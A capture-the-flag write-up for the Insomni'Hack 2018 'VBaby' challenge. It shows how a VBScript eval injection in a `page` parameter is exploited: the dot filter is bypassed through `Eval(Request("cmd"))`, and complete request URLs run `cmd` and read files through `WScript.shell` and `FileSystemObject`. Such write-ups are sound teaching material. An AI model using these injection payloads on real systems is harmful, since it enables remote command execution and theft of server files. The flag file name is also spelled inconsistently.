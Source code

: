 ```yaml
---
title: Insomni'Hack 2018 - VBaby
date: 2018-03-25 21:00:00 +0100
---
```


# {{page.title}}
Solves: 22 / Points: 137

## Challenge description
> The admin of this site thinks he's a good dev. Just show him he's not by retrieving the flag on his server!

We start with a URL: http://vbaby.insomni.hack

## Challenge resolution
The website has a single input, the `page` GET parameter. After playing and manually fuzzing this input, the server returns a VBscript compilation error.

After some research, we find out that the server is performing an `eval` call on the provided input. However, the dot (.) character is filtered.

We can use two different technics to bypass the dot filter:
1. using `Chr(46)` and concatenation character `&`.
2. using `Eval(Request("cmd"))` and putting the payload within `cmd` parameter. Indeed, only the `page` parameter content is filtered.

In order to execute code in VBS, we can leverage `WScript.shell` object. To read the output of the command (and read file content), we use `scripting.FileSystemObject`.

First, we enumerate files and folders within `C:\` by running `cmd /c dir C:\>C:\temp\dir.txt`:
```shell
http://vbaby.insomni.hack/Default.asp?page=%26Eval(Request("cmd"))&cmd=CreateObject("wscript.shell").Run("cmd+/c+dir+C:\>C:\temp\dir.txt")
```
Then, we read the content of `C:\temp\dir.txt` with:
```shell
http://vbaby.insomni.hack/Default.asp?page=%26Eval(Request("cmd"))&cmd=CreateObject("scripting.FileSystemObject").OpenTextFile("C:\temp\dir.txt").ReadAll
```
![Reading C folder]({{ site.url }}/assets/reading-c-folder.png)

And we find out that the flag is stored within `C:\this_file_contains_the_flags_guys.txt`.

This final request allows us to grab the flag:
```shell
http://vbaby.insomni.hack/Default.asp?page=%26Eval(Request("cmd"))&cmd=CreateObject("scripting.FileSystemObject").OpenTextFile("C:\this_file_contains_the_flag_guys.txt").ReadAll
```
![Reading flag]({{ site.url }}/assets/reading-flag.png)


